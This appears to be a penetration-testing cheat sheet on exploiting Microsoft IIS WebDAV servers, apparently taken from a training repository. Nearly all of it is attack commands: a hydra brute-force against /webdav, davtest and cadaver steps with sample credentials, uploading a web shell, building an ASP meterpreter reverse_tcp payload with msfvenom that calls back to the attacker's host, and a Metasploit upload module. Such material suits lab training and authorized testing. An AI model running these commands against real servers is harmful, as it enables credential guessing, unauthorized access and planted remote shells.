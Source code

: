 # Exploiting Microsoft IIS Webdav

Legitimate credentials are needed for interacting with WebDav

Step 1: Identify if it has been configurated on the server. This can be completed with Nmap  
Step 2: Brute Force attack on the server to identify credentials we can use  
Step 3: Authenticate and upload malicious .asp payload  

## **Tools**  
Davtest - Scan, authenticate, and exploit WEbdav server 
Cadaver - supports download, upload, onscreen display, in place editing, etc

**Brute Force username and password**  
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt (IP address or domain) http-get /webdav/

## Davtest  
Checking what file types we can upload  
**Unauthenticated** - ```davtest -url http://(IP address)/webdav```  
**Authenticated** - ```davtest -url -auth bob:password123321 http://(IP address)/webdav```  

## Cadaver  
This will access the contents of the directory (download/upload)  
```cadaver http://(IPaddress)/webdav```  
Enter credentials  

**Uploading Webshell**  
Web shells located -- /usr/share/webshells  
```put /usr/share/webshells/(file type)/webshell.(filetype)```  

# Metasploit  
**Manual**  
Generating an asp payload  
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Local IP address) LPORT=1234 -f asp > shell.asp```  
Upload shell using cadaver (previous 2 steps)   
Start postgresql services - ```services postgresql start && msfconsole```  
Use multi/handler  - ```set payload/windows/meterpreter/reverse_tcp```  

**Automated**  
Module - exploit/windows/iis/iis_webdav_upload_asp  
set path - /webdav  ```set path /webdav/metasploit.asp```  

